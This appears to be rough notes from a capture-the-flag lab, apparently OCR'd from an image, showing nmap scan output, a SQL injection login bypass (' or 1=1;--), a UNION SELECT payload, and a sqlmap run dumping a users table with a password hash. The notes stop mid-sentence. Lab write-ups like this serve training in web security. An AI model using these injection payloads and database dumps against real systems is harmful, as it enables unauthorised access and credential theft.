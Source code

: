 OS:SCAN(V=7.94SVN%E=4%D=4/16%OT=22%CT=1%CU=31224%PV=Y%DS=2%DC=T%G=Y%TM=67FF
OS:0303%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=108%TI=Z%CI=I%TS=8)SEQ(S
OS:P=104%GCD=1%ISR=10A%TI=Z%II=I%TS=8)SEQ(SP=104%GCD=1%ISR=10A%TI=Z%CI=I%II
OS:=I%TS=8)SEQ(SP=104%GCD=1%ISR=10A%TI=Z%CI=RD%II=I%TS=8)OPS(O1=M509ST11NW7
OS:%O2=M509ST11NW7%O3=M509NNT11NW7%O4=M509ST11NW7%O5=M509ST11NW7%O6=M509ST1
OS:1)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%
OS:W=6903%O=M509NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=
OS:N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T
OS:7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN
OS:=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   102.63 ms 10.23.0.1
2   102.70 ms 10.10.231.54

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 623.78 seconds

entering ' or 1=1;-- into user field and password blank bypassed login by ending SQL query and providing a true statement

in the game query DB at page 10.10.231.54/portal.php searching

Title Review 2 3 
output for
' UNION SELECT 1,2,3 FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c-- let'

┌─[✗]─[user@parrot]─[~/Desktop]
└──╼ $sqlmap -r requests.txt --dbms-mysql --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.3#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+

added hash to hash.txt file and performed
